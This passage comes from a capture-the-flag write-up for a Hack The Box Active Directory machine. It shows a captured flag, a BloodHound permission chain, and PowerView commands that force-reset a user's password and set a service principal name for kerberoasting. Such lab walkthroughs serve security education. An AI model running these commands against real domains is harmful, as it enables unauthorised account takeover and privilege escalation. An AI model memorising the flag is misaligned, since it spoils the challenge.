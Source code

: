 ![](https://i.imgur.com/U3GOOdN.png)

`HTB{c1_cd_c00k3d_up_1337!}`

#### Bloodhound & Ad Graph

After running bloodhound we can get the graph below,

Oliver has `ForceChangePassword` permission over Smith.
Smith has `GenericWrite` over Maria.
Maria has `WriteOwner` over "Domain Admins" group.

Pretty straight forward

![](https://i.imgur.com/3gl0gei.png)


#### Abusing ForceChangePassword

We need [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) for necessary functions.

```
upload /opt/PowerView.ps1
Import-Module .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity smith -AccountPassword $UserPassword
```

![](https://i.imgur.com/89holid.png)


![](https://i.imgur.com/hd8mjuF.png)


#### Abusing GenericWrite

To abuse GenericWrite, we have 2 options. One, we can set a service principal name and we can kerberoast that account. Two, we can set objects like logon script which would get executed on the next time account logs in.


So I monitored the maria's ldap entry a while and as you can see that last time she logged in was when the box had started. She did not seem to be logging in, so the first option seems the correct choice right ? Let's kerberoast her account.

![](https://i.imgur.com/dwLJqEk.png)

#### Kerberoasting


It looks like krbtgt's account is kerberoastable too, I tried this one as well before, but the hash is not crackable.

![](https://i.imgur.com/D6goF2y.png)


We can set a SPN like below,
```
Import-Module .\Powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)

Set-DomainObject -Credential $Cred -Identity maria -SET @{serviceprincipalname='foobar/xd'}
```
